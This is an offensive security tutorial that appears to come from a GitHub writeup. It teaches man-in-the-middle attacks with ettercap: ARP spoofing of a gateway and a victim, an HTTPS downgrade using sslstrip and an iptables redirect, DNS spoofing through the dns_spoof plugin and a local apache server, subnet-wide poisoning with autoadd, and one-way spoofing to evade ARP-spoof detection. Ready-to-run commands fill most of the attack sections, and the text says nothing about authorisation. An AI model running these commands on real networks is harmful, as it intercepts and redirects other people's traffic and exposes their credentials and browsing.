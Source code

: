 # ETTERCAP
![](img/ettercap/ettercap.png)



This writeup is about the tool **ettercap** that can be used in many **POST CONNECTION ATTACKS** so post-connections attacks works against Wifi & Ethernet both, in this attacks you can manually capture data and bypass HTTPs and some router-side security features you can also analyse data flows.

#### So why only  ettercap ?

>Its a cool tool for MITM attacks with basic but reliable features it has in sniffer supports plugins for dns spoofing and it has many custom filters.

Let's begin with this tools but you need to  customize it a little bit before diving into main features which will help you in future work:

**Open bash and write**

![](img/ettercap/p1.png)

the .conf file for ettercap will open

![](img/ettercap/p2.png)

**set ec_uid: 0 and ec_gid: 0** (because it gives warning sometimes) and than scroll down

![](img/ettercap/p3.png)

you will find iptables just uncomment those two lines by removing # from staring save and quit the terminal we are ready to go for attack.

Run:

```bash
root@kali:~# ettercap --help

(it list all possible features to use with device)

root@kali:~# ettercap -Tq ///

```

![](img/ettercap/p4.png)

-T is used to run in text mode and q is for silent mode and  /// is for all devices so always read --help for each and every tool its very helpful, It scans all the devices connected to the same network.

You can press h once again after tool scans all the hosts so list all hosts by [lL] you can quit the tool just by pressing 'q' in bash now lets try **ARP Spoof** using ettercap many of you will think we can use the classic 'mitm arp spoof ...'
but since ettercap gives lots of features so let's give it chance.

**NOTE: We are illustrating the attack using eth0 you can use your desired interface like wlan0  or remember that the first three value of ip addresses for your target IP will be same as yours as you are connected to same network**

Usage: ettercap [options] [TARGET1] [TARGET2]

```bash
root@kali:~# ettercap -Tq -M arp:remote -i eth0 /(IP ADDRESS OF GATEWAY)// /(IP ADDRESS OF TARGET)//

```

```bash
root@kali:~# ettercap -Tq -M arp:remote -i eth0 /10.0.2.1// /10.0.2.5//

```
---
**BREAKDOWN FOR COMMAND :**

IP ADDRESS OF GATEWAY: address of router to which you are connected which you can get just by the command 'route-n ' in bash you will also get this address in host blacklist

IP ADDRESS OF TARGET: select the device you want to attack from host list scanned by the ettercap from above command.

**why /// ?**

(MAC ADDRESS)/(IP ADDRESS)/(IPv6)

our job can be only by using  IP Address's

After running the command just confirm GROUP1 and GROUP2 are set perfectly the tool will do the arp-spoofing attack and it will starts the sniffer automatically and if the victim visit any http websites all data will flow through your computer and data will be displayed on your bash

---

Lets talk about how to downgrade HTTPs to HTTP using SSLstrip and ettercap follow the below steps:

1. Flush iptables
2. Add iptables rule to redirect packets to sslstrip

```bash
root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
root@kali:~# sslstrip --help

```
(Traffic comes to default port of tcp @ 80 and since we will be the man in the middle we are redirecting those traffic our default port 10000 )


3. Start sslstrip

```bash
root@kali:~# sslstrip

```
4. Start ettercap to poison target. (in another TAB)

```bash
root@kali:~# ettercap -Tq -M arp:remote eth0  /10.0.2.1// /10.0.2.5//

```
Hit ENTER that's all.

---

I already told that we are using ettercap because of some cool feature and on the feature is **plugins** like autoadd,repoison_arp,dns_spoof and many more.

>autoadd: If you are attacking to whole subnet and some clients are connecting to the network after your run attack so you can't posison but this plugins help to overcome this problem it keep running background and help to add them in your attack.

Here we are targeting whole network connected to our Wifi

```bash
root@kali:~# ettercap -Tq -M arp:remote -i wlan0 -S ///

```
See your host's list after this  you can press **p** to see all plugins

![](img/ettercap/p5.jpeg)

From the list of plugins just select the plugin you want to add.

```bash
Plugin name (0 to quit ) :autoadd

```
Hit Enter to activate and now when new client you will be notified, try some more plugins by yourself just type and activate it.


---
##### DNS SPOOFING (with ettercap)

In short DNS Spoofing helps to redirect requests from one website to another you can send the request to your own sever for more details either read the [Wikipedia](https://en.wikipedia.org/wiki/DNS_spoofing) or our writeups on DNS Spoofing.

For this also we are going to use the dns_spoof plugin but before this you need to make some change to etter.dns file

```bash
root@kali:~# leafpad /etc/ettercap/etter.dns

```
file will be opened in leafpad

![](img/ettercap/p6.jpeg)

Scroll down a little bit you will find something like this change url and ip configuration(see from ifconfig) and set the desired url you want to spoof.

![](img/ettercap/p7.jpeg)

For example i will spoof my victim when he tries to open yahoo

![](img/ettercap/p8.jpeg)

You will be redirecting the user to your own server so run your apache.

```bash
root@kali:~# service apache2 start
root@kali:~#ettercap -Tq -M arp:remote -i wlan0 -S -P dns_spoof/(TARGET IP)//  /(GATEWAY IP)//

```
---

Lets talk about one more feature of ettercap which is **one way spoofing** before diving i want to make you realise why we need this so at first lets  know briefly  about the ARP spoofing : In this attack the attacker pretends to be router for the victim by taking router's MAC Address and for router the attacker acts as victim by taking its MAC Address and hence attacker become the man in the middle between router and victim but if the sys admin or victim is using any tool to prevent **ARP Spoofing** then they will find there are **two IP Addresses** which are having the same **MAC Address** this can expose us to overcome this we need **one way spoofing**
![](img/ettercap/arp.png)
So in one way spoofing we only fool victim by pretending to be router so any requests from victim will pass through the attacker machine but response goes directly to victim from access point(router) here we will not able to manipulate the responses because we are not fooling the but still all necessary data will flow through the attacker machine you can downgrade the https and also use DNS_spoofing.

COMMAND FOR ONE WAY SPOOFING:
```
root@kali:~# ettercap -Tq -M arp:oneway -i eth0 -S /(Victims IP )// /(ROUTERS IP)//

```

```
root@kali:~# ettercap -Tq -M arp:oneway -i eth0 -S /10.0.2.5// /10.0.2.1//

```

>Thats it all the responses will flow throuh your macine  but sometimes ettercap sniffers not work effeciently (in the case of one way spoofing) so you can use **Wireshark/Tshark** and use the filter http to get all requests.


**AUTHOR** - [ERROR](https://github.com/Error-200)
